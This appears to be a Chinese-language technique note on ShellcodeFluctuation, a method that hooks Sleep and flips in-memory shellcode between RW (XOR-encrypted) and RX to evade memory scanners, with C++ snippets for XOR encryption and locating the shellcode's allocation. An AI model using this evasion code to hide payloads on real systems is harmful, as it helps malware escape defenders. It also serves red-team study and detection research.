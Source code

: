   

-   ShellcodeFluctuation  
    

1.  Hook Sleep 函数
    
2.  定位内存中的 shellcode
    
3.  睡眠期间翻转为 RW
    
4.  睡眠结束翻转为 RX
    
5.  无限循环，以此规避内存扫描
    

关键部分代码：

  

XOR 加密：

```plain
void xor32(uint8_t* buf, size_t bufSize, uint32_t xorKey)
{
    uint32_t* buf32 = reinterpret_cast<uint32_t*>(buf);

    auto bufSizeRounded = (bufSize - (bufSize % sizeof(uint32_t))) / 4;
    for (size_t i = 0; i < bufSizeRounded; i++)
    {
        buf32[i] ^= xorKey;
    }

    for (size_t i = 4 * bufSizeRounded; i < bufSize; i++)
    {
        buf[i] ^= static_cast<uint8_t>(xorKey & 0xff);
    }
}
```

```plain
定位内存中的 shellcode 地址：
```

```plain
bool isShellcodeThread(LPVOID address)
{
    MEMORY_BASIC_INFORMATION mbi = { 0 };
    if (VirtualQuery(address, &mbi, sizeof(mbi)))
    {
        //
        // To verify whether address belongs to the shellcode's allocation, we can simply
        // query for its type. MEM_PRIVATE is an indicator of dynamic allocations such as VirtualAlloc.
        //
        if (mbi.Type == MEM_PRIVATE)
        {
            const DWORD expectedProtection = (g_fluctuate == FluctuateToRW) ? PAGE_READWRITE : PAGE_NOACCESS;

            return ((mbi.Protect & PAGE_EXECUTE_READ)
                || (mbi.Protect & PAGE_EXECUTE_READWRITE)
                || (mbi.Protect & expectedProtection));
        }
    }

    return false;
}
```

